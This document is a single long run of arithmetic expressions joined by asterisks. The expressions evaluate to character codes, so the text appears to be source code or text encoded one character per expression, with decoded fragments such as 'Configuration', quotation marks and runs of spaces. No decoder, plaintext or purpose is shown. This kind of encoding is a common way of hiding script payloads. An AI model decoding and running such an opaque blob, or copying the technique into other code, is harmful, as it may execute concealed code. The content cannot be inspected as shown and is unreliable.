238+9320*7354-7253*603405/6095*-1259+1370*8779-8661*627614/6214*7189-7075*5016-4895*6674-6607*2005-1894*-7821+7931*525912/5156*-6542+6647*8937-8834*-4368+4485*5736-5622*-269+366*-8151+8267*-9076+9181*3200-3089*-2197+2307*9058-8990*2346-2249*910-794*615-518*-9857+9923*9710-9613*-1157+1256*6275-6168*4771-4654*6325-6213*1034-1000*7840-7799*75750/7575*47328/1479*-3949+3981*9170-9138*-3679+3711*-8565+8597*-8727+8759*240448/7514*4524-4492*8854-8771*-4396+4497*2819-2703*8855-8823*1264-1153*2664-2566*7131-7025*727810/9970*148170/1347*526-411*-1772+1888*-4185+4282*-8894+9004*855855/8645*-4430+4531*6118-6086*230519/3779*21440/670*100344/904*-6071+6169*-8934+9040*7167-7100*221508/2051*8321-8224*-3784+3899*-127+242*-1188+1234*-8381+8496*8468-8356*-7090+7187*-1813+1932*-4667+4777*827820/7884*1050720/9552*-2056+2171*-9650+9766*6821-6724*3587-3477*390951/3949*-5472+5573*-716+811*30500/3050*268160/8380*3597-3565*247904/7747*197600/6175*1024-992*271648/8489*1871-1839*7427-7395*6137-6026*-7719+7817*-3204+3310*37887/519*18700/170*829955/7217*-2237+2353*-7797+7894*7473-7363*4964-4865*521160/5160*-8170+8216*4052-3985*7253-7139*9424-9323*452893/4669*-1433+1549*1345-1240*1100787/9917*188760/1716*-2939+3006*128628/1191*655623/6759*1070420/9308*299-184*2295-2217*-3964+4061*-4669+4778*7390-7289*318976/9968*3396-3335*-3588+3620*176834/5201*124400/1244*4487-4389*-1768+1866*9417-9362*108432/2008*421096/8098*108048/2251*1510-1458*8061-8016*192962/1969*-3599+3654*5694-5644*-5116+5217*-2187+2232*281372/5411*-6500+6550*-2484+2586*-2855+2952*161460/3588*-3023+3120*7138-7041*100597/2053*125334/2321*-256+301*403816/7211*9612-9515*255474/4482*-7006+7056*-1007+1105*-2766+2865*2713-2665*-2208+2262*-9704+9758*137865/1365*-7317+7366*8769-8720*329222/9683*-9873+9883*5580-5548*1864-1832*-4340+4372*-5544+5576*187648/5864*5675-5643*-4871+4903*279296/8728*1099899/9909*-9542+9640*-1758+1864*356386/4882*-1643+1753*-3722+3837*10036-9920*384217/3961*223850/2035*66429/671*2133-2032*163622/3557*-7001+7069*-8280+8381*315-217*395226/3378*3607-3504*9604-9525*361984/3232*-7666+7782*1022070/9734*-2240+2351*4478-4368*-2537+2652*209920/6560*222101/3641*-6314+6346*-7846+7912*-2824+2921*181815/1581*631452/6252*330696/6124*1416-1364*119025/1725*2871-2761*656469/6631*6889-6778*203500/2035*-7623+7724*77830/7783*-7598+7630*-9778+9810*248160/7755*-8494+8526*-2154+2186*7358-7326*9658-9626*-2292+2324*-5194+5305*602602/6149*195464/1844*599476/8212*-5940+6050*727950/6330*547752/4722*6913-6816*4611-4501*7029-6930*76154/754*2827-2781*-1967+2079*425529/3637*7371-7255*9217-9122*44170/4417*256160/8005*4064-4032*133504/4172*4712-4680*171258/2482*2112-2004*9166-9051*582770/5770*-895+905*-6214+6246*-4551+4583*5633-5601*-9276+9308*1345-1276*1033340/9394*-669+769*6065-6033*-3197+3270*51204/502*8896-8886*-1005+1074*1002456/9282*2257-2142*1611-1510*-7854+7864*-383+415*220576/6893*-9441+9473*-6166+6198*295202/4406*8837-8726*-8958+9068*-4863+4978*728596/6281*-5981+6013*2352-2268*291384/2556*-949+1054*349273/3391*399-296*8708-8607*-2186+2300*833-749*-8478+8599*-912+1024*-9091+9192*117776/1732*-7875+7972*26670/254*1610-1502*484121/4001*-8989+9021*8883-8822*-1989+2021*-1826+1875*1710/171*172800/5400*4834-4802*-5619+5651*-2298+2330*8686-8619*153180/1380*9357-9247*467820/4068*1070216/9226*-4286+4318*144365/2221*238986/2414*934496/8056*-6157+6262*-2901+3012*-5947+6057*-1598+1682*8435-8314*5664-5552*1503-1402*-7155+7224*2110-1990*5827-5726*3531-3432*9541-9509*396805/6505*-7215+7247*2295-2247*7965-7955*-2211+2243*4837-4805*64480/2015*207744/6492*1877-1794*219978/2178*-9038+9154*848-816*-6644+6759*807394/7994*616170/5405*9657-9539*-7522+7627*-8220+8319*887386/8786*-7632+7664*7173-7112*-650+682*3045-2978*4862-4748*-2986+3087*-3159+3256*-8912+9028*-6017+6118*908-829*7190-7092*-4542+4648*331179/3279*6127-6028*-7443+7559*-3661+3701*5637-5603*5160-5077*100683/1017*474240/4560*617514/6114*1735-1635*7195-7078*-8104+8212*3256-3155*-1959+2005*83498/1006*-6347+6448*-8133+8247*1132210/9595*-2350+2455*-3535+3634*758914/7514*-6406+6440*40508/988*11960/1196*-3558+3590*4890-4858*214752/6711*296000/9250*250245/3735*890072/9176*406620/3765*6026-5918*-6789+6821*268985/2339*-5059+5160*7875-7761*439078/3721*-5409+5514*-7947+8046*-8302+8403*409952/8912*-5781+5848*-6821+6932*-4020+4130*-5244+5354*856379/8479*3570-3471*3814-3698*-7388+7398*-9867+9899*4866-4834*3113-3081*-7442+7474*-9535+9603*3138-3033*457909/4201*23648/739*-7289+7403*1535-1424*5590-5479*-2078+2194*665000/9500*-1322+1433*-3624+3732*854900/8549*3629-3528*-7855+7969*-5591+5601*-2695+2727*2715-2683*-417+449*1268-1236*773062/9314*1855-1754*2600-2484*663-631*-5163+5277*4068-3957*750582/6762*379320/3270*687750/9825*-7551+7662*8696-8588*-3292+3392*-4253+4354*-2155+2269*106880/3340*1899-1838*-9635+9667*8424-8309*810222/8022*863892/7578*4157-4039*697725/6645*2437-2338*-9247+9348*-9168+9214*544428/7668*-9280+9381*9488-9372*174020/2486*297036/2676*-963+1071*22800/228*-8327+8428*605568/5312*386320/9658*-3642+3676*168728/1834*2601-2567*63509/1549*11950/1195*114944/3592*8294-8262*-7876+7908*-2389+2421*262140/3855*843465/8033*8284-8175*-1407+1439*8125-8009*312243/3219*753250/6550*4793-4686*432072/6354*2359-2258*5942-5840*-2578+2683*6390-6280*755895/7199*2463-2347*-2857+2962*25641/231*-7336+7446*3730/373*-3834+3866*317664/9927*191744/5992*-7000+7032*5871-5788*-8467+8568*-9751+9867*98336/3073*772560/6660*-3710+3807*810980/7052*395793/3699*4935-4867*916272/9072*499800/4900*-9119+9224*-2857+2967*-2116+2221*-8796+8912*-7804+7909*553446/4986*258720/2352*197824/6182*230946/3786*201888/6309*-605+720*-7197+7298*8763-8649*-7324+7442*-7054+7159*914067/9233*1994-1893*276276/6006*742872/9524*67569/669*331534/2786*-7396+7480*-8157+8254*851460/7404*859210/8030*-1462+1502*-1635+1683*241285/5885*-8252+8262*33184/1037*319072/9971*-9046+9078*245696/7678*239224/3518*7267-7162*8635-8526*-1341+1373*363318/3187*501162/4962*6937-6834*10041-9968*71060/646*9492-9390*3148-3037*5042-5032*293600/9175*4502-4470*60512/1891*4315-4283*2439-2356*8062-7961*16008/138*7125-7093*4950-4836*8668-8567*328570/3190*420553/5761*-8103+8213*8538-8436*185814/1674*8870-8838*289140/4740*90688/2834*-21+137*5944-5847*916435/7969*-2349+2456*654432/9624*200283/1983*-5302+5404*-4904+5009*6112-6002*-3276+3381*-2962+3078*7596-7491*-3627+3738*173470/1577*-6381+6427*3387-3305*8939-8838*752930/7310*-1314+1419*-9590+9705*-7124+7240*216258/1897*1051-954*5311-5195*886-781*-1600+1711*2699-2589*-5113+5186*742170/6747*2688-2586*679320/6120*8400-8390*188800/5900*7314-7282*-733+765*8602-8570*-4486+4600*-6640+6741*3216-3113*5760-5687*1045220/9502*9686-9584*9453-9342*444314/9659*140012/2059*6266-6165*674820/5868*-6298+6397*7259-7145*-1716+1821*5682-5570*-3502+3618*2489-2384*-2771+2882*2467-2357*7820-7788*526674/8634*61728/1929*251430/7395*360060/4236*-8911+9023*6125-6025*557-460*5962-5846*620948/6148*197948/5822*5943-5933*835-803*-960+992*-2383+2415*5968-5936*556890/4885*408747/4047*8756-8653*401500/5500*869440/7904*897396/8798*457-346*-4271+4317*391235/6019*6038-5921*-3883+3999*403000/3875*-6304+6415*-4521+4635*94656/2958*341356/5596*307104/9597*-4408+4442*8585-8508*-2073+2178*9080-8981*1535-1421*733266/6606*-16+131*-5061+5172*36108/354*765368/6598*-4301+4335*4190-4180*178400/5575*66368/2074*48192/1506*318880/9965*-8755+8823*-3482+3587*311086/2854*-984+1016*6941-6826*95849/949*5861-5745*6221-6105*532035/5067*886930/8063*-560+663*1287-1172*78320/7832*1759-1727*27200/850*236256/7383*101920/3185*-4051+4134*-9355+9456*-512+628*-7696+7728*-7077+7192*52419/519*630228/5433*-3741+3857*-1902+2007*9514-9404*1310-1207*-3361+3476*4211-4179*475739/7799*-582+614*272832/2352*-1411+1508*-1631+1746*241-134*551548/8111*-4764+4865*9525-9423*-4087+4192*6698-6588*743295/7079*2467-2351*-2661+2766*2053-1942*3982-3872*4634-4588*4826-4711*-9799+9900*-8370+8486*-9072+9188*960855/9151*-3775+3885*6899-6796*7044-6929*-604+614*2329-2297*2263-2231*7402-7370*21248/664*1758-1643*-7270+7371*-9721+9837*750056/6466*3984-3879*594000/5400*-5011+5114*-986+1101*-171+217*7477-7408*-6955+7065*-114+211*1082-984*484920/4490*-4143+4244*5669-5569*296288/9259*-1755+1816*83424/2607*413616/4924*-4376+4490*-8011+8128*4935-4834*-1489+1499*61632/1926*-8407+8439*132992/4156*-6423+6455*-2917+3032*3910-3809*4835-4719*290580/2505*9884-9779*-9315+9425*578036/5612*2771-2656*447212/9722*-5182+5265*6986-6870*406139/4187*804726/7059*248240/2140*-737+824*4976-4872*998688/9888*112090/1019*578955/8907*213462/1809*10007-9910*7260-7155*4169-4061*5911-5814*26460/270*1207-1099*172912/1712*-8231+8263*40870/670*43104/1347*-5876+5960*3854-3740*4432-4315*490355/4855*-8372+8382*91808/2869*3328-3296*277312/8666*-2258+2290*9234-9119*7797-7696*1054208/9088*279212/2407*-9678+9783*7755-7645*853046/8282*3790-3675*-9787+9833*9464-9392*508-403*941300/9413*-4097+4197*824968/8168*1552-1442*-7447+7479*383934/6294*91712/2866*-7520+7590*954-857*-7012+7120*-3880+3995*-1132+1233*80890/8089*8736-8704*-4449+4481*281632/8801*2816-2784*-3598+3713*4751-4650*-8673+8789*613-497*-9359+9464*8382-8272*10009-9906*9687-9572*1739-1693*3773-3705*-9678+9783*4332-4217*752914/7762*726-618*-6584+6692*4361-4250*-3563+3682*-6126+6209*655168/5648*218735/2255*-3944+4058*88740/765*372592/5104*1898-1796*4810-4731*-4329+4439*3543-3477*728761/7513*852484/7349*3335-3219*-3588+3689*-2133+2247*-8795+8900*286941/2841*98210/854*-8635+8667*-323+384*-3330+3362*-5871+5941*7968-7871*349812/3239*1029250/8950*-168+269*-1985+1995*3678-3646*244096/7628*9833-9801*-7275+7307*150824/2218*3396-3291*-2911+3020*1002-970*294872/2542*8642-8528*4816-4711*2728-2625*712863/6921*3899-3798*191178/1677*2006-1891*-2157+2167*156928/4904*258432/8076*3881-3849*3100-3068*41832/504*6044-5943*-9825+9941*-2893+2925*9786-9670*-9083+9197*7110-7005*3199-3096*97438/946*139279/1379*-9607+9721*1177-1062*4922-4890*-6902+6963*155520/4860*354960/3060*5061-4964*-4657+4772*-6006+6113*428060/6295*-882+983*8904-8802*302190/2878*1154-1044*-806+911*3701-3585*256-151*217227/1957*-9347+9457*-8865+8911*6766-6650*842118/7387*52185/497*-2675+2778*-5899+6002*2922-2821*-5939+6053*8598-8483*-6124+6134*75136/2348*8982-8950*3441-3409*-4729+4761*3866-3798*-3955+4060*6332-6223*212640/6645*6888-6772*3733-3619*6460-6355*-538+641*5933-5830*4551-4450*1127460/9890*95780/9578*67456/2108*-1003+1035*9781-9749*-9383+9415*447785/5395*-4337+4438*-7084+7200*115328/3604*3690-3574*245898/2157*-6438+6543*10040-9937*-6724+6827*-3296+3397*1049484/9206*224800/7025*-4877+4938*1409-1377*9163-9047*6479-6365*122325/1165*568251/5517*-8080+8183*-1157+1258*9936-9822*948060/8244*5306-5260*-6380+6447*-7389+7503*3575-3474*-3972+4069*6005-5889*-9337+9438*-7390+7430*240735/4377*314798/7678*-9404+9414*2127-2095*-4983+5015*1487-1455*2742-2710*-1256+1324*247-142*5441-5332*5023-4991*9538-9473*-3356+3455*1041448/8978*6591-6486*628149/5659*155980/1418*-4102+4112*3688-3656*-4300+4332*4254-4222*302176/9443*7797-7714*-4517+4618*-3616+3732*45600/1425*-6553+6618*-3714+3813*1126824/9714*-4975+5080*-1306+1417*-121+231*3091-3059*503-442*265248/8289*-5787+5903*-3973+4070*410435/3569*746860/6980*-7230+7298*-61+162*3217-3115*3499-3394*27940/254*509460/4852*9986-9870*-458+563*699189/6299*-3575+3685*187174/4069*108615/1671*-1519+1618*644496/5556*-3495+3600*499722/4502*905300/8230*558900/4860*7862-7816*-6080+6147*-5413+5527*4992-4891*1204-1107*104864/904*-1530+1631*109360/2734*515060/7924*944856/9544*7312-7196*777630/7406*7778-7667*-9637+9747*-3052+3136*410190/3390*7264-7152*-8814+8915*329751/4779*9699-9579*445107/4407*575091/5809*260432/6352*89970/8997*-89+121*-1652+1684*-3958+3990*-3489+3521*-250+315*-812+911*251952/2172*3966-3861*573648/5168*1433-1323*5630-5584*-4228+4308*529135/5455*7926-7810*757328/7282*-9376+9408*437736/7176*5797-5765*3993-3959*949311/9589*917-859*1752-1660*12+107*-2547+2652*-4068+4178*8418-8318*-3072+3183*505512/4248*-2160+2275*-1693+1785*6841-6726*-8132+8253*8564-8449*177248/1528*7830-7729*9484-9375*3518-3467*4020-3970*9482-9390*863775/8725*-9645+9754*-2231+2331*3371-3325*4206-4105*-6132+6252*-3418+3519*1677-1643*8977-8967*3345-3313*6130-6098*278368/8699*234688/7334*-5729+5794*6919-6820*7602-7486*6533-6428*-1235+1346*4747-4637*-1758+1804*533403/5499*-603+717*-9118+9221*-2783+2900*9629-9520*809616/8016*-5279+5389*783232/6752*-2528+2643*5375-5343*4902-4841*-1569+1601*-9306+9340*71675/1525*-9471+9552*-6587+6619*6175-6128*-5397+5496*150432/4701*-6183+6217*5057-5025*-5865+5903*7816-7784*847836/8564*-1700+1811*321877/2953*7314-7205*79734/822*4697-4587*7442-7342*230784/7212*6758-6720*3619-3587*-8132+8166*-4584+4616*5565-5516*6326-6264*120576/3768*-1146+1213*7729-7671*8013-7921*725580/8340*-682+787*7771-7661*967500/9675*1090464/9824*449582/3778*718520/6248*3802-3710*6192-6108*6794-6693*-8430+8539*3238-3126*6424-6332*-256+375*3800-3695*115500/1050*-7034+7134*6065-5954*6914-6795*370645/3223*419445/9321*-6488+6599*-7727+7825*-7117+7223*5771-5670*530145/5355*-7728+7844*218835/4863*88088/1573*-8267+8368*-4419+4473*608525/6025*-3118+3175*6786-6684*-7279+7335*-6840+6939*7282-7237*6979-6929*-8165+8213*396474/3887*479604/4702*-9258+9303*120900/2325*2540-2438*-6181+6236*955010/9745*5357-5312*466716/8188*-5302+5351*319421/3293*2305-2251*213930/4754*179010/3510*-1611+1659*833392/8504*4893-4796*-8061+8111*1660-1558*328539/3387*3912-3864*6796-6740*818201/8101*3192-3143*-5215+5312*6595-6549*9465-9357*-9119+9230*745617/7239*6482-6450*2554-2504*4049-3987*-3503+3541*362-313*7725-7691*582-572*5106-5074*257184/8037*301952/9436*121408/3794*-8936+9004*5513-5408*836248/7672*3868-3836*-9515+9626*596722/6089*837294/7899*-9045+9123*343198/3398*696928/6008*-2560+2604*-4698+4730*-2926+3002*-7095+7206*9746-9643*407190/3878*-8412+8522*704650/8290*-2051+2166*1374-1273*487350/4275*-7757+7767*180032/5626*6425-6393*2359-2327*3281-3249*6592-6509*6562-6461*-8098+8214*5469-5437*700854/6314*3373-3275*-6092+6198*461292/5914*-6979+7080*615960/5310*-7244+7276*5728-5667*3579-3547*-9031+9098*7681-7567*-1790+1891*62759/647*383960/3310*3469-3368*786682/9958*-4977+5075*555334/5239*674478/6678*-4882+4981*117160/1010*-3770+3810*300526/8839*1124-1037*402-319*3206-3107*909378/7977*2474-2369*649488/5799*-8476+8592*-6160+6206*6714-6636*-5550+5651*-84+200*1864-1745*2602-2491*1104-990*485138/4534*-608+642*8528-8487*91740/9174*-2011+2043*9649-9617*3807-3775*5591-5559*-7740+7816*-9700+9811*742424/7208*851340/8108*393910/3581*236470/2782*-5913+6028*7008-6907*-5555+5669*7182-7150*151646/2486*6286-6254*727605/6555*-7295+7393*937358/8843*305214/3913*-8532+8633*578724/4989*389942/8477*634100/7460*711160/6184*884760/8760*-5118+5232*779766/9997*-6330+6427*1081498/9922*270983/2683*5894-5884*212896/6653*108512/3391*1711-1679*13056/408*-4463+4536*510918/5009*-1546+1578*7331-7246*-2980+3047*-5157+5254*472190/4106*802546/7946*63280/1582*85880/1130*1051-940*628506/6102*688380/6556*9543-9433*2314-2229*-3734+3849*351-250*-4023+4137*96022/2342*189920/5935*385154/6314*-3244+3276*67558/1987*7626-7543*-5569+5658*679438/8186*-4905+4989*685998/9942*-309+386*198220/5830*8164-8132*421596/5019*-3204+3308*824665/8165*1063920/9672*1322-1312*-1548+1580*258144/8067*3580-3548*7473-7441*357627/5183*988092/9149*2743-2628*280376/2776*-633+643*-7572+7604*4312-4280*-4218+4250*2353-2321*577752/7602*-6995+7106*-1789+1892*-182+287*1073490/9759*-4205+4290*-5663+5778*10084-9983*3980-3866*64160/2005*-3738+3799*2004-1972*8443-8374*-8960+9069*9674-9562*571532/4927*9416-9295*54220/5422*-340+372*-1991+2023*-1062+1094*9152-9120*-4244+4313*6538-6428*381000/3810*240256/7508*729781/9997*-4275+4377*3520/352*4146-4114*9102-9070*318240/9945*183744/5742*-1643+1710*5327-5230*149148/1381*5210-5102*-2055+2087*9898-9784*3555-3444*3189-3078*-1649+1765*4466-4396*4226-4115*2848-2740*-2922+3022*-7305+7406*1395-1281*-248+294*3430-3348*4211-4110*1885-1782*-9435+9540*-76+191*7796-7680*-3066+3167*763344/6696*245616/2924*-183+280*1548-1433*-430+537*4949-4881*881225/8725*5433-5331*-7219+7324*2137-2027*1009995/9619*1062444/9159*3936-3831*3582-3471*-7323+7433*-8893+8933*7763-7729*6187-6090*-5879+5929*-6883+6937*-265+313*46227/811*-2309+2409*-2729+2780*3765-3666*-1158+1203*465200/9304*2765-2716*6346-6291*308856/6056*7849-7804*211952/4076*-7312+7363*-7895+7992*7033-6981*59445/1321*406896/7266*497627/4927*4601-4544*-9360+9457*178380/3964*-8178+8227*-1337+1438*-5514+5571*521934/5117*635350/6550*41424/863*8868-8818*8744-8643*338296/3452*-4173+4221*101376/2112*5261-5164*4582-4548*-9076+9120*-7506+7538*706788/6093*2785-2688*-8752+8867*7096-6989*-3474+3542*-7888+7989*371586/3643*331170/3154*410300/3730*2411-2306*-8232+8348*7759-7654*-7362+7473*-651+761*358556/8149*-5723+5755*173556/3214*6132-6088*-2863+2895*-5399+5475*-5257+5368*305086/2962*-4651+4756*-4501+4611*502945/5917*1170-1055*6514-6413*1114008/9772*972-928*-5243+5275*-9602+9646*730-698*8794-8743*208198/5078*-8572+8582*8632-8600*163520/5110*3590-3558*1282-1250*557976/8328*247350/2550*781488/7236*1063476/9847*4234-4202*-833+947*90576/816*9238-9127*8181-8065*9214-9144*4304-4193*640116/5927*2840-2740*89688/888*9383-9269*8052-8006*5188-5120*430260/4260*-8621+8729*1121-1020*935076/8061*527018/5218*3851-3767*-9216+9313*9409-9294*-7673+7780*3750-3710*229398/6747*-9424+9521*2397-2347*137538/2547*1037-989*-150+207*578100/5781*1161-1110*-5618+5717*225675/5015*-3102+3152*460453/9397*-2720+2775*-8398+8449*405495/9011*7568-7516*-4456+4507*-7870+7967*1691-1639*-3001+3046*2229-2173*171801/1701*437190/7670*8079-7982*140580/3124*94178/1922*330674/3274*-2459+2516*10015-9913*5360-5263*5470-5422*-1535+1585*-3471+3572*7968-7870*8740-8692*459696/9577*153066/1578*-78+112*5626-5582*2065-2017*-9831+9872*-9277+9287*545-476*-612+722*5318-5218*6415-6383*-8957+9030*9969-9867*-6556+6566*1206-1196*9056-8986*6068-5951*2663-2553*-4749+4848*3458-3342*301980/2876*-835+946*-1361+1471*-6991+7023*-7134+7204*-2418+2523*9611-9503*617211/6111*652809/9461*711600/5930*899955/8571*-1744+1859*-9236+9352*-2388+2503*9840-9800*4351-4281*451080/4296*438048/4056*875569/8669*3387-3307*580060/5980*9641-9525*-9061+9165*77367/1887*-4741+4751*-4165+4197*189568/5924*-5035+5067*192608/6019*409107/4929*-1184+1285*-6317+6433*193472/6046*3969-3867*5322-5207*659673/5943*598-566*-4111+4172*3474-3442*95207/1421*141930/1245*-2457+2558*-9025+9122*-5900+6016*452379/4479*-4598+4677*7792-7694*1932-1826*2612-2511*120582/1218*-5911+6027*189960/4749*244630/7195*-2258+2341*-5132+5231*555978/4877*-485+590*4703-4591*-390+506*-9703+9808*-2284+2394*-9687+9790*823-777*590450/8435*1004325/9565*-5165+5273*8016-7915*-5106+5189*1099406/9086*887915/7721*5131-5015*991921/9821*835049/7661*692119/8761*549094/5603*312170/2945*3474-3373*5181-5082*-7452+7568*109888/3232*6756-6715*87070/8707*-5739+5771*195872/6121*1447-1415*7257-7225*9803-9730*678096/6648*-4716+4748*987666/9683*493-378*689865/6215*-5373+5419*9077-9007*8117-8012*-3760+3868*5628-5527*-9034+9103*1021920/8516*370860/3532*837315/7281*-4101+4217*-2259+2374*284520/7113*-6983+7053*323295/3079*1909-1801*-8380+8481*760960/9512*6695-6598*440916/3801*-6097+6201*-6664+6705*-5638+5670*1384-1300*-1818+1922*7112-7011*509520/4632*-6419+6429*4254-4222*20160/630*-3996+4028*8539-8507*9051-9019*179040/5595*32224/1007*136672/4271*-7170+7240*1531-1426*-9247+9355*4708-4607*-6255+6324*2212-2092*2324-2219*551080/4792*57304/494*-1943+2058*-6337+6398*4875-4808*4481-4415*-2226+2337*-334+445*568728/5266*449-409*286503/5847*295774/7214*-9682+9692*-2214+2246*5092-5060*192288/6009*1378-1346*294078/4262*-188+296*-6391+6506*374-273*68080/6808*-7877+7909*218176/6818*251744/7867*9657-9625*46144/1442*153600/4800*9819-9787*2266-2234*573930/8199*450-345*4515-4407*6620-6519*-2014+2083*821400/6845*3953-3848*505080/4392*-2665+2781*-6121+6236*2135-2074*-314+381*652-586*645243/5813*-1990+2101*125604/1163*-1505+1545*9913-9865*-7099+7140*72690/7269*2941-2909*-8860+8892*-5573+5605*30112/941*-2917+2986*430650/3915*-3926+4026*68960/2155*511803/7011*-1936+2038*52300/5230*-1860+1929*-1373+1483*-1702+1802*3538-3506*8775-8705*-1076+1193*779790/7089*-8483+8582*992728/8558*2869-2764*225885/2035*790020/7182*99010/9901*9883-9873*-34+104*-5542+5659*-743+853*-7835+7934*2811-2695*-7156+7261*-2517+2628*453200/4120*-7119+7151*-9813+9879*676187/6971*-4058+4173*359863/3563*9221-9167*6429-6377*34528/416*-8293+8409*887148/7782*575-470*8598-8488*746-643*-6381+6449*-2337+2438*853182/8618*52170/470*-8196+8296*-1286+1387*-4980+5020*1874-1808*232-111*-453+539*887-790*7544-7436*-2995+3027*7074-6956*-9340+9407*28083/253*701200/7012*4432-4331*7565-7524*-126+136*3006-2974*-3100+3132*-6950+6982*234240/7320*-3410+3493*856581/8481*4908-4792*1040-1008*9534-9423*-6522+6610*369831/4803*-7896+7972*-1586+1618*585844/9604*-2346+2378*5753-5686*8071-7957*767903/7603*5012-4915*8595-8479*-2601+2702*-2726+2805*-901+999*-5191+5297*7673-7572*8642-8543*8745-8629*8071-8031*1744-1710*-6028+6105*-6516+6631*1231-1111*-287+396*-7272+7380*-4299+4349*-5860+5906*531012/7809*40527/513*406-329*-3179+3247*-8809+8920*775269/7831*61074/522*5550-5441*936876/9276*-4936+5046*9169-9053*62356/1834*-5055+5096*2585-2575*3112-3080*102624/3207*8517-8485*-3942+3974*741439/8933*-6803+6904*1084252/9347*-3667+3699*192030/1730*-7595+7673*-9055+9166*4727-4627*-6893+6994*9321-9289*1377-1316*624-592*576756/5196*552728/6281*-2932+3009*534280/7030*108882/2367*3067-3000*270-156*9502-9401*8151-8054*851556/7341*2782-2681*388056/5624*-5067+5175*5142-5041*3277-3168*-2643+2744*4796-4686*284084/2449*-1484+1524*5711-5677*-8324+8422*-5971+6068*868250/7550*4499-4398*-8150+8204*-9758+9810*140216/4124*-7346+7387*59530/5953*-5934+5966*-6289+6321*-1197+1229*-7606+7638*-4155+4266*-9291+9369*-6323+6434*240500/2405*-6579+6680*-5287+5333*469300/4693*-80+177*3145-3029*-6467+6564*249816/2974*60621/501*3672-3560*880417/8717*-9836+9868*103334/1694*2109-2077*-5597+5631*-2486+2584*843465/8033*-2902+3012*-1280+1326*538412/5494*742-645*9081-8966*2508-2407*-1038+1092*-6222+6274*182172/5358*1008-998*5679-5647*8194-8162*-229+261*-7014+7046*6133-6022*448266/5747*465867/4197*-1599+1699*-519+620*-7469+7515*1614-1498*898900/8900*-9751+9871*918140/7915*147168/4599*328302/5382*7921-7889*-6855+6973*-5677+5744*2180-2069*8706-8606*9643-9542*81860/8186*197024/6157*304352/9511*5647-5615*931-899*137863/1661*5598-5497*1778-1662*8931-8899*2902-2836*2298-2193*8654-8544*855734/8822*1273-1159*2684-2563*645-562*-345+461*1070346/9389*5201-5100*156752/1616*-1567+1676*3215-3183*-639+700*270944/8467*21038/314*-5611+5725*632361/6261*131144/1352*-7022+7138*152005/1505*2941-2862*392-294*463326/4371*5518-5417*-3233+3332*9602-9486*-1592+1632*-5458+5492*-8815+8880*5897-5829*529458/6702*-6891+6959*646800/9800*9221-9175*2689-2606*-4781+4897*2960-2846*7381-7280*254722/2626*802785/7365*-9560+9594*-3522+3563*81060/8106*899-867*31648/989*109952/3436*3666-3634*6034-5968*-133+238*-6331+6441*473651/4883*188670/1655*1193423/9863*7405-7322*-6664+6780*9545-9431*3913-3812*-414+511*865351/7939*4091-4045*732816/8724*6382-6261*3624-3512*-3781+3882*871-839*1911-1850*25696/803*24353/497*66770/6677*214624/6707*6067-6035*174752/5461*24416/763*9903-9837*-1365+1470*-3386+3496*-1321+1418*-6919+7033*-5917+6038*258960/3120*9527-9411*-9883+9997*228260/2260*-6656+6753*1039751/9539*9647-9601*5526-5447*294-182*595-494*8656-8546*-2376+2386*8497-8465*504-472*303584/9487*179872/5621*-6526+6592*-757+862*395670/3597*-6655+6752*5485-5371*-6440+6561*596770/7190*-8263+8379*9378-9264*-5409+5510*-8529+8626*3804-3695*-9147+9193*617-530*8648-8534*-761+866*281300/2425*-5420+5521*6735-6703*-9087+9198*-3174+3252*8480-8369*9816-9716*4437-4336*1545-1499*-731+841*-7838+7949*292-192*355318/3518*131628/1567*2479-2358*8502-8390*908192/8992*413100/4131*-2375+2461*-1947+2044*-9250+9358*-4713+4830*4262-4161*4331-4321*-647+679*-4222+4254*221792/6931*-4907+4939*-9051+9117*392595/3739*1598-1488*-4332+4429*1924-1810*6980-6859*221859/2673*2362-2246*5744-5630*623170/6170*941288/9704*9429-9320*-2341+2387*85360/1067*564435/5085*9002-8887*-95+200*230840/1990*113820/1084*820734/7394*5982-5872*7741-7709*135054/2214*-7018+7050*7447-7399*84810/8481*31648/989*-9844+9876*7900-7868*8915-8883*-2762+2828*423255/4031*1568-1458*-8735+8832*264936/2324*1440-1319*-5605+5688*1135640/9790*5320-5206*8717-8616*-948+1045*3523-3414*356408/7748*9138-9054*371107/3067*4011-3899*708616/7016*292672/9146*-3568+3629*85664/2677*33200/664*11350/1135*-1727+1759*5745-5713*-7067+7099*-3761+3793*293358/7522*7428-7396*4560-4495*560-452*-7623+7731*188672/5896*658840/9412*791763/7133*2466-2352*366-257*-7275+7372*1151996/9931*-7497+7529*-175+236*-2164+2226*-8882+8914*4188-4156*355212/3036*225040/1940*110058/1079*422280/9384*230643/4707*406782/7533*6876-6768*-6603+6704*8174-8142*307215/6827*-492+524*1761-1644*-330+446*-9136+9238*9402-9357*-8405+8461*56480/1765*8032-7987*24704/772*-6573+6690*212512/1832*-2972+3074*-4858+4903*9312-9263*400680/7420*977724/9053*5302-5201*65620/6562*-8023+8055*2238-2206*-5019+5051*35200/1100*7508-7442*-8338+8443*578160/5256*190023/1959*5713-5599*591932/4892*1909-1826*25288/218*3055-2941*990911/9811*-5533+5630*5598-5489*375728/8168*-4555+4622*230568/2217*320779/3307*285684/2506*456334/5498*7851-7750*614452/5297*1304-1272*322995/5295*131072/4096*147866/4349*733-616*-3328+3444*9599-9497*-5461+5506*1230-1174*221578/6517*8547-8537*3608-3576*222720/6960*7408-7376*-1899+1931*8550-8484*4602-4505*-3924+4039*-4092+4193*9444-9390*347048/6674*9592-9509*-4549+4665*-3121+3235*-6113+6218*1585-1475*8780-8677*560592/8244*708212/7012*1027-928*4141-4030*-8003+8103*57166/566*3706-3674*258823/4243*32320/1010*3157-3091*4368-4263*2264-2154*-3196+3293*4097-3983*5557-5436*6974-6891*555292/4787*317604/2786*537421/5321*402841/4153*5037-4928*133860/2910*126444/1542*484598/4798*-7186+7283*-6745+6845*-793+877*6314-6213*115440/962*638348/5503*6303-6293*-706+738*2728-2696*4107-4075*263904/8247*-1521+1604*-982+1083*385468/3323*-233+265*22638/343*9698-9593*1036750/9425*-4941+5038*1107168/9712*-9484+9605*260786/3142*-9337+9453*286938/2517*853349/8449*326987/3371*-2173+2282*258912/8091*-8068+8129*7063-7031*6683-6605*-1973+2084*46284/399*-6874+6978*-4619+4724*5660-5550*852222/8274*3587-3577*112192/3506*-3917+3949*-838+870*215232/6726*-9254+9337*862439/8539*652848/5628*286880/8965*-9294+9405*631020/8090*2678-2567*9674-9574*-6388+6489*-8321+8353*-8097+8158*-1580+1612*-6139+6217*411921/3711*213208/1838*295256/2839*1047165/9973*-9663+9773*404584/3928*8693-8683*-1942+2011*255750/2325*499200/4992*-8786+8818*5694-5624*1108458/9474